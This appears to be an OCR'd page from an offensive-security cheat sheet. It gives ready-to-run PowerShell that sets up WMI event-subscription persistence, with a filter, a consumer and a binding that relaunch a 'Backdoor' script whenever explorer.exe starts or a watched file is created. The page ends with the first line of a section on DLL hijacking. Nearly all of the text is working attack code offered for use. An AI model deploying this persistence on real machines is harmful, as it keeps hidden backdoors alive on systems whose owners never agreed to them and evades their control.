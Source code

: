 ## Examples of WMI Persistence

- Persist on Process Creation (e.g., explorer.exe starts):
   ```powershell
   $filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
       Name = "ExplorerPersistence"; 
       QueryLanguage = "WQL"; 
       Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'explorer.exe'"
   }

   $consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
       Name = "ExplorerConsumer"; 
       CommandLineTemplate = "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Backdoor\explorer_backdoor.ps1"
   }

   Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
       Filter = $filter; 
       Consumer = $consumer
   }
   ```

- Persist via File Creation:
   ```powershell
   $filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
       Name = "FileCreationPersistence"; 
       QueryLanguage = "WQL"; 
       Query = "SELECT * FROM __InstanceCreationEvent WITHIN 10 WHERE TargetInstance ISA 'CIM_DataFile' AND TargetInstance.Name = 'C:\\path\\to\\logfile.txt'"
   }

   $consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
       Name = "FileConsumer"; 
       CommandLineTemplate = "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Backdoor\file_trigger.ps1"
   }

   Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
       Filter = $filter; 
       Consumer = $consumer
   }
   ```

# DLL Hijacking

DLL Hijacking occurs when an application or service loads a Dynamic Link Library (DLL) from a location where an attacker has placed a malicious DLL due to improper directory or path permissions.
